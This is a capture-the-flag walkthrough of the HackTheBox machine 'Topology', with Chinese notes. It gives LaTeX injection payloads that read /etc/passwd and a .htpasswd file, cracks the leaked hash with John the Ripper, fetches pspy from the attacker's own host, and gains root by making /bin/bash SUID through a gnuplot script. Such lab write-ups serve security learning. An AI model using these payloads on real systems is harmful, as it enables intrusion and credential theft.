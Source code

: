 ```yaml
---
title: 'HackTheBox: Topology'
disqus: hackmd
---
```


HackTheBox: Topology
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/machines/Topology

### Initial Enumeration

●Start Machine: 
![](https://hackmd.io/_uploads/HJ8NFx2z6.png)


## Solution

### 1. Attempt

#### 1.1 Edit /etc/hosts
/etc/hosts
> 10.10.11.217    topology.htb

#### 1.2 Browse http://topology.htb/
![](https://hackmd.io/_uploads/Hk9Uqx2Ga.png)

#### 1.3 nmap scan 
> nmap -sC -sV -T4 10.10.11.217

![](https://hackmd.io/_uploads/Hy2msl2GT.png)
#### 1.4 dirsearch scan
> dirsearch -u http://topology.htb/

![](https://hackmd.io/_uploads/rkvcZ-2fa.png)
> /.htpasswd_test
> /.htpasswds

#### 1.5 Subdomain latex.topology.htb 
![](https://hackmd.io/_uploads/BJQgA62f6.png)
Edit /etc/hosts
/etc/hosts
> 10.10.11.217    latex.topology.htb

![](https://hackmd.io/_uploads/rJ9vCanfp.png)

#### 1.6 Attempt LaTeX Equation Generator
Test:
> chwchw

![](https://hackmd.io/_uploads/BkTmJChGa.png)
> http://latex.topology.htb/equation.php?eqn=chwchw&submit=

![](https://hackmd.io/_uploads/HJU8JRnMp.png)

### 2. Command Injection
● [LaTex 基本介紹](https://albertyzp.github.io/2019/10/15/LaTex%E5%9F%BA%E7%A1%80%E6%89%8B%E5%86%8C/#%E4%B8%80-latex%E5%9F%BA%E6%9C%AC%E6%A6%82%E5%BF%B5)
● [LaTex listening source code](https://en.wikibooks.org/wiki/LaTeX/Source_Code_Listings)
●\lstinputlisting{} 是Command，不是數學符號，所以用$ $ 將內部原始碼$閉合。
![image.png](https://hackmd.io/_uploads/rylP77b76.png)

```
$\lstinputlisting{/etc/passwd}$
```
![](https://hackmd.io/_uploads/Sk9heCnMa.png)

```
@hewen
input 引用另一個 LaTeX 文檔；lstinputlisting 引用外部檔案
$\lstinputlisting{/etc/hosts}$
eqn=$\lstinputlisting{/etc/apache2/apache2.conf}$ #Apache server
```

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![](https://hackmd.io/_uploads/rJEp-A2zp.png)
Get user/password
> vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
> user: vdaisley
> password: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
#### 2.1 [Password Formats:$ apr1 $](https://httpd.apache.org/docs/2.4/misc/password_encryptions.html)

MD5
"$ apr1 $" + the result of an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password. See the APR source file apr_md5.c for the details of the algorithm.

#### 2.2 John-the-Ripper tools 
Hash工具破解工具:MD5、SHA1、SHA256、MySQL 與NTLM 的雜湊
> sudo apt-get install john -y
> john --wordlist=rockyou.txt ./topology.txt

![](https://hackmd.io/_uploads/HyVyrlaMT.png)
> password(MD5 decrypt): calculus20

### 3. SSH Login
> ssh vdaisley@10.10.11.217
> ls -al

![](https://hackmd.io/_uploads/HkbbIlpMa.png)
> cat user.txt

![](https://hackmd.io/_uploads/H1E78eTMp.png)
### 4. GET USER FLAG
> **FLAG: 995aae620785c32d38235ff75eb0cc34**

### 5. Gnuplot
●Gunplot: 繪圖工具(產生plt file)
> ls -al /opt

![](https://hackmd.io/_uploads/B17DarCzT.png)

### 6. pspy Tools
●[pspy tools](https://www.freebuf.com/articles/web/254452.html): 不需root權限即可監聽。
●GitHub: [pspy-unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy?source=post_page-----1e4cf07d7805--------------------------------#pspy---unprivileged-linux-process-snooping) 
> wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
> chmod +x pspy64 //給執行權限
> ./pspy64

![image.png](https://hackmd.io/_uploads/SJyry51QT.png)
#### 6.1 SSH download pspy from local
>python3 -m http.server
vdaisley@topology:~$ wget 10.10.16.35:8000/pspy64

![image.png](https://hackmd.io/_uploads/H1fvkqymp.png)

![image.png](https://hackmd.io/_uploads/BJdwJ9ymT.png)
> vdaisley@topology:~$ ls
pspy64  user.txt
vdaisley@topology:~$ chmod +x pspy64 
vdaisley@topology:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     

#### 6.2 chmod new .plt file
● [Gnuplot Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/?source=post_page-----1e4cf07d7805--------------------------------)
● [chmod command](https://zh.wikipedia.org/zh-tw/Chmod)
> vdaisley@topology:~$ echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/chw.plt
vdaisley@topology:~$ cat /opt/gnuplot/chw.plt
system 'chmod u+s /bin/bash'
vdaisley@topology:~$ ls -al /opt/gnuplot/chw.plt
-rw-rw-r-- 1 vdaisley vdaisley 29 Nov  1 04:22 /opt/gnuplot/chw.plt

```
@hewen
執行這個檔案的時後以檔案擁有者身份執行，而不是以當前使用者的身份執行。
雖然執行時會出現 error，但檔案屬性還是改變了
/bin/bash -p
```

> vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# 

![image.png](https://hackmd.io/_uploads/r1lUnZcyQa.png)
> bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
![image.png](https://hackmd.io/_uploads/H1Baa9y76.png)
> bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt 

![image.png](https://hackmd.io/_uploads/B131z91mp.png)


### 7. GET ROOT FLAG
> **FLAG: 2cf94752042e7319560bf84534369988**

###### tags: `CTF` `Web` `nmap` `dirsearch` `Command Injection` `pspy` `John-the-Ripper` `MD5`